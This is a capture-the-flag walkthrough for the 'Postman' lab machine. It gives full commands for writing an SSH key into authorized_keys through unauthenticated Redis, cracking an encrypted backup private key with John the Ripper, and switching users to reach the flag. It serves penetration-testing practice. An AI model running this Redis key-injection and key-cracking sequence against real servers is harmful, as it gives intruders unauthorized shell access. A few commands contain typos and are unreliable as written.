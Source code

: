 ![postman](https://user-images.githubusercontent.com/66635295/177882324-7b24b663-8911-4c1c-81c6-85fbc14f3ea8.png)

**RECON**
---
**Unfinished Website**
![recon](https://user-images.githubusercontent.com/66635295/177882332-fd817d49-3650-4a0b-b8cf-9bd12907a41d.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.160</pre>
-allports -version -Aggressive

Port 6379 Redis and Port 1000 Webpage
![nmap](https://user-images.githubusercontent.com/66635295/177882433-ba2d38f8-69fc-49e7-99ff-10ab7c868bd8.png)

**Webpage check**

Wepbpage shows an error, link does not work 
![10000](https://user-images.githubusercontent.com/66635295/177882646-5ebf6232-adf3-4e15-8cdd-b284ba8791f7.png)

Navigating to the proper page reveals Webmin login 
![webmin](https://user-images.githubusercontent.com/66635295/177882796-f0ff7900-9296-4471-b394-01b121af3ef9.png)

**Redis**
<pre> sudo apt-get install redis-tools </pre>
![redis install](https://user-images.githubusercontent.com/66635295/177883042-2adb0cbf-6e2c-44bc-a428-e99c52c57325.png)

Redis Host
<pre>redis-cli -h 10.10.10.160</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178047298-847ee0b2-b196-4674-ab2e-499e5b6a23fc.png)

Directory Check
<pre>CONFIG GET dir</pre>
<pre> CONFIG SET dir /var/lib/redis/.ssh</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178054227-24f483cd-851e-4e7d-9feb-120da1f1ff95.png)

**ENUMERATION**
---
**SSH Key**
<pre>ssh-keygen</pre>
![sshgen](https://user-images.githubusercontent.com/66635295/178054662-4469fc0a-1040-438b-9c44-6c62b8568dfc.png)

Copy key to .txt file
<pre> (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt  </pre>            
![keytxt](https://user-images.githubusercontent.com/66635295/178055503-d0f774e4-6c69-409a-99cf-c0eac96f8106.png)

Send key to host
<pre>cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key</pre>
![rkey](https://user-images.githubusercontent.com/66635295/178055971-545373bc-d97d-4ea1-bc7b-07574185d1e4.png)

Check key
<pre>get ssh_key</pre>
![check key](https://user-images.githubusercontent.com/66635295/178056511-f5151520-69fe-4dce-b9e5-8571d4c55139.png)

Set database
<pre>CONFIG SET dir /var/lib/redis/.ssh </pre>
<pre>CONFIG set dbfilename authorized_keys</pre>
<pre>save</pre>
<pre>exit</pre>
![set db](https://user-images.githubusercontent.com/66635295/178056953-a2d34e4d-f7b1-40db-b2ff-c58c8c4db9f3.png)


SSH into the host
<pre> ssh - id_rsa redis@10.10.10.160 </pre>

**Checking  Directorys**
authorized_keys directory is here 
![directory](https://user-images.githubusercontent.com/66635295/178059417-c9d01199-9069-4e64-9c48-840fba1f2d65.png)

Home directory 
<pre>ls -l</pre>
<pre>cd Matt</pre>
<pre>ls -l</pre>
User Matt has read permison for user flag
![matt](https://user-images.githubusercontent.com/66635295/178060409-6bc981cb-aca1-4f61-a78d-4dda178c30a0.png)

Opt Directory
<pre> cat id_rsa.bak </pre>
Reveals Private RSA KEY 


**PRIVILEGE ESCALATION**
---
**John the Ripper**
Copy paste the key and transfer it to .john
<pre> /usr/share/john/ssh2john.py postman_id_rsa_enc > postman_id_rsa.john </pre>
![sshtojohn](https://user-images.githubusercontent.com/66635295/178073942-d24e2b6a-b6c2-4652-8406-c8b7cb4242b2.png)

Cracked Password 
<pre> john postman_id_rsa.johm --wordlist=/usr/share/wordlists/rockyou.txt </pre>
Jonhn and rockyou.txt reveals password to be computer2008
![cracked](https://user-images.githubusercontent.com/66635295/178074216-551f939e-0907-4646-9070-fcedf0739f41.png)

**SSH Matt**
<pre>ssh Matt@10.10.10.160</pre>

Matt is denied permission
![fail matt](https://user-images.githubusercontent.com/66635295/178074458-e94015eb-af59-4635-88ca-d72305f099ae.png)

Checking SSH 
<pre>cd /etc/ssh/</pre>
<pre>ls</pre>
![sshconfig](https://user-images.githubusercontent.com/66635295/178074642-1a9db243-8f0e-4b36-b167-20d7103f491f.png)

reading sshd_config Shows Matt is a denied login 
![denny](https://user-images.githubusercontent.com/66635295/178074725-c7d3d884-8855-4f91-aab4-b122591dbe00.png)

Postmatt
<pre> su Matt </pre>
<pre> Password: computer2008 </pre>
![postmatt](https://user-images.githubusercontent.com/66635295/178075034-35d1fd9d-d29c-4def-846f-df32e4c3d510.png)

Flag is now accessible 
![user flag](https://user-images.githubusercontent.com/66635295/178075070-f098c396-939f-4315-8073-d0e6d0a53312.png)


